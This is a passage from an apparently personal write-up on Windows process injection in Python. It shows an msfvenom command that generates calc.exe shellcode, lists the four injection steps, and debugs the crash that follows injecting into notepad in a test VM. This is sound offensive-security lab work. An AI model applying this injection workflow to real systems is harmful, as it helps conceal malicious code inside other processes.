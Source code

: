 Generating the code is done by specifying bad bytes in msfvenom. The shellcode can then be generated as follows:

```text
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -b '\x00' -f python
```

The generated code opens calc.exe and exits the current thread.

When replacing the shellcode from the POC with this one and executing the python script, it crashes the process. In my case plain old notepad was the victim.

## Investigating the crash

In order to debug the crash, I started with looking into each step of the injection in a debugger. If we break down the injection then it consists of the following steps:

1. acquire handle to process
2. allocate memory 
3. write memory
4. start new thread at memory

Since the injection code already has some basic error handling when one of the steps fails, we are most likely looking at a problem that is related the execution of our code. This would explain why we get the following output from the script:

```text
PS C:\Users\IEUser\Desktop\documentation_procInj> C:\Users\IEUser\AppData\Local\Programs\Python\Python37\python.exe .\code_injection.py 448
<class 'bytes'>
[*] code injection successfull (thread ID: 0x0000143c)
PS C:\Users\IEUser\Desktop\documentation_procInj>
```

So our injection seems to be successful but crashes the program. This is most likely because the started thread runs into an execution error, since no prior step reported any issues.

Lets look into it by adding some debug output. For this I added debug output similar to this after steps 1,2 and 3:

```text
print("arg_address ", hex(arg_address))
input("press enter to continue")
```

Obviously other variables were used as print output in the other steps.

Executing this leads to the following output:

```text
ocal\Programs\Python\Python37\python.exe .\code_injection.py 308
<class 'bytes'>
h_process  0x1d8
press enter to continue
arg_address  -0x1bb90000
press enter to continue
```
